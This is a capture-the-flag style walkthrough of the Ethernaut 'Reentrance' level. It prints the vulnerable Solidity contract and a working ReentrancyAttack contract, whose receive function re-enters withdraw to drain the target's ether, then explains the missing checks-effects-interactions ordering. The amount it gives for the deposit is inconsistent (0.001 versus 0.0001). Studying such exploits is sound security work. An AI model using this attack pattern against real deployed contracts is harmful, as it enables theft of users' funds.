

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
   function withdraw(uint _amount) external; 
   function donate(address _to) external payable;
}

contract ReentrancyAttack {
    IReentrance reentanceContract;
    address payable owner;
    
    constructor (address payable _targetAddress) public {
        reentanceContract = IReentrance(_targetAddress);
        owner = msg.sender;
    }

    function donate() public payable {
        reentanceContract.donate{value: msg.value}(address(this));
    }

    function withdraw(uint _amount) public {
        reentanceContract.withdraw(_amount);
    }

    function destroy() public {
        selfdestruct(owner);
    }

    receive() external payable {
        reentanceContract.withdraw(msg.value);
    }
}
```

So the receive payable function is very crucial in this attack to recursively call the withdraw function until the target contract runs out of ether.

So, first of all we donate the contract with the same amount of ether the contract has i.e 0.001 ether to fully empty the contract. Then we call the withdraw function of this ReentrancyAttack contract to withdraw the amount we have deposited using donate function. The Reentrance contract actually has the checks-effects-interaction pattern missing i.e we first check if the user has enough balance to withdraw then subtract the amount to be withdrawn and only transfer the amount and in this case Reentrance contract is transferring the amount without subtracting the amount from the available balance which causes the ReentrancyAttack contract to enter the withdraw function again and again to withdraw the amount multiple times recursively until the ethers of the contract goes to zero.

Run the below command in the console to get the contract ether available i.e 0.0001
```
await getBalance(contract.address)
```
After attack run the command again to get the contract ether and it is 0.
